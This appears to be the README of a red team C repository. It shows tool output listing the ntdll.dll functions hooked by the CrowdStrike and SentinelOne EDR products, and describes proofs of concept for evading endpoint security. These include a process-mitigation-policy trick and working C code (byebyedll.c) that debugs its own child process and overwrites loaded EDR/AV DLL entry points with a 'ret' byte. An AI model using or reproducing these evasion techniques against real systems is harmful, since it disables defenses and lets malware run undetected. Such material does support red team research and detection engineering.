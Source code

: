 # RedTeamCCode
Red Team C code repo

# CrowdStrike hooked ntdll.dll APIs

```
C:\Users\dev\Desktop>hook_finder_64.exe C:\Windows\System32\ntdll.dll
Loading C:\Windows\System32\ntdll.dll
------------------------------------------
BASE                    0x00007FFAE0030000      MZÉ
PE                      0x00007FFAE00300E8      PE
ExportTableOffset       0x00007FFAE01812A0
OffsetNameTable         0x00007FFAE01838C0
Function Counts         0x97e (2430)
------------------------------------------
NtAllocateVirtualMemory is hooked
NtAllocateVirtualMemoryEx is hooked
NtDeviceIoControlFile is hooked
NtGetContextThread is hooked
NtMapViewOfSection is hooked
NtMapViewOfSectionEx is hooked
NtProtectVirtualMemory is hooked
NtQueryInformationThread is hooked
NtQueueApcThread is hooked
NtQueueApcThreadEx is hooked
NtReadVirtualMemory is hooked
NtResumeThread is hooked
NtSetContextThread is hooked
NtSetInformationProcess is hooked
NtSetInformationThread is hooked
NtSuspendThread is hooked
NtUnmapViewOfSection is hooked
NtUnmapViewOfSectionEx is hooked
NtWriteVirtualMemory is hooked
ZwAllocateVirtualMemory is hooked
ZwAllocateVirtualMemoryEx is hooked
ZwDeviceIoControlFile is hooked
ZwGetContextThread is hooked
ZwMapViewOfSection is hooked
ZwMapViewOfSectionEx is hooked
ZwProtectVirtualMemory is hooked
ZwQueryInformationThread is hooked
ZwQueueApcThread is hooked
ZwQueueApcThreadEx is hooked
ZwReadVirtualMemory is hooked
ZwResumeThread is hooked
ZwSetContextThread is hooked
ZwSetInformationProcess is hooked
ZwSetInformationThread is hooked
ZwSuspendThread is hooked
ZwUnmapViewOfSection is hooked
ZwUnmapViewOfSectionEx is hooked
ZwWriteVirtualMemory is hooked
------------------------------------------
Completed
```
# SentinelOne hooked ntdll.dll APIs

```
C:\Users\dev\Desktop>sentinel_hook_finder_64.exe C:\windows\system32\ntdll.dll
Loading C:\windows\system32\ntdll.dll
------------------------------------------
BASE                    0x00007FF8EDA30000      MZÉ
PE                      0x00007FF8EDA300E8      PE
ExportTableOffset       0x00007FF8EDB812A0
OffsetNameTable         0x00007FF8EDB838C0
Functions Count         0x97e (2430)
------------------------------------------
KiUserApcDispatcher is hooked
LdrLoadDll is hooked
NtAllocateVirtualMemory is hooked
NtCreateThreadEx is hooked
NtCreateUserProcess is hooked
NtFreeVirtualMemory is hooked
NtLoadDriver is hooked
NtMapUserPhysicalPages is hooked
NtMapViewOfSection is hooked
NtOpenProcess is hooked
NtProtectVirtualMemory is hooked
NtQuerySystemInformation is hooked
NtQuerySystemInformationEx is hooked
NtQueueApcThread is hooked
NtQueueApcThreadEx is hooked
NtReadVirtualMemory is hooked
NtResumeThread is hooked
NtSetContextThread is hooked
NtSetInformationProcess is hooked
NtSetInformationThread is hooked
NtTerminateProcess is hooked
NtUnmapViewOfSection is hooked
NtWriteVirtualMemory is hooked
RtlAddVectoredExceptionHandler is hooked
RtlGetNativeSystemInformation is hooked
ZwAllocateVirtualMemory is hooked
ZwCreateThreadEx is hooked
ZwCreateUserProcess is hooked
ZwFreeVirtualMemory is hooked
ZwLoadDriver is hooked
ZwMapUserPhysicalPages is hooked
ZwMapViewOfSection is hooked
ZwOpenProcess is hooked
ZwProtectVirtualMemory is hooked
ZwQuerySystemInformation is hooked
ZwQuerySystemInformationEx is hooked
ZwQueueApcThread is hooked
ZwQueueApcThreadEx is hooked
ZwReadVirtualMemory is hooked
ZwResumeThread is hooked
ZwSetContextThread is hooked
ZwSetInformationProcess is hooked
ZwSetInformationThread is hooked
ZwTerminateProcess is hooked
ZwUnmapViewOfSection is hooked
ZwWriteVirtualMemory is hooked
------------------------------------------
Completed
```

# PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON.c

Is a proof-of-concept for the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` trick it will enforce the policy then spawn itself again the respawned process have the policy enforced allowing you run "malicious" code with the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` been set.

# byebyedll.c

Is a proof-of-concept that enforce the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` policy and also debug the child process (itself) and monitor Dlls that are loaded using Windows debugger APIs. It detect Dlls based on the path and patch it. The idea is to prevent EDR and AV Dlls loaded into your process from executing properly. This is a POC the blacklisted Dlls is set to `user32.dll`.  

The event is monitored using the `LOAD_DLL_DEBUG_EVENT` event. 

The DLL location is then retrieved using `event.u.UnloadDll.lpBaseOfDll`

The code is patched using the following functions:

```
VOID *GetEntryPointOffset(CHAR *start, DWORD dwSize, HANDLE hProc) {

    CHAR* mem = GlobalAlloc(GPTR, dwSize);
    DWORD dwBytesRead = 0;

    ReadProcessMemory(hProc, start, mem, dwSize, &dwBytesRead);

    DWORD dwBaseDLLInitializeOffset = *((DWORD*)mem + (0x120 / 4));

#ifdef DEBUG
    printf("dwBaseDLLInitializeOffset offset 0x%x\n", dwBaseDLLInitializeOffset);
#endif

    VOID *dwBaseDLLInitialize = (VOID*)start + dwBaseDLLInitializeOffset;

#ifdef DEBUG
    printf("dwBaseDLLInitialize offset 0x%p\n", dwBaseDLLInitialize);
#endif

    GlobalFree(mem);
    return dwBaseDLLInitialize;
}

VOID ModifyMem(CHAR *start, DWORD dwSize, HANDLE hProc) {
#ifdef DEBUG
    printf("Cleaning HANDLE 0x%p 0x%p length: %d\n", hProc, start, dwSize);
#endif
    VOID* EntryPoint = GetEntryPointOffset(start, dwSize, hProc);
    DWORD dwOut = 0;
    DWORD dwOld = 0;

#ifdef DEBUG
    printf("EntryPoint at 0x%p\n", EntryPoint);
#endif

    VirtualProtectEx(hProc, EntryPoint, 1, PAGE_READWRITE, &dwOld);
    WriteProcessMemory(hProc, EntryPoint, "\xc3", 1, &dwOut);
#ifdef DEBUG
    printf("Size of bytes written: %d\n", dwOut);
#endif
}
```

Verbose messages can be removed before the code is compiled by setting `DEBUG` as `FALSE`.

# Credit 
Mr.Un1k0d3r RingZer0 Team

[link](http://google.ca)
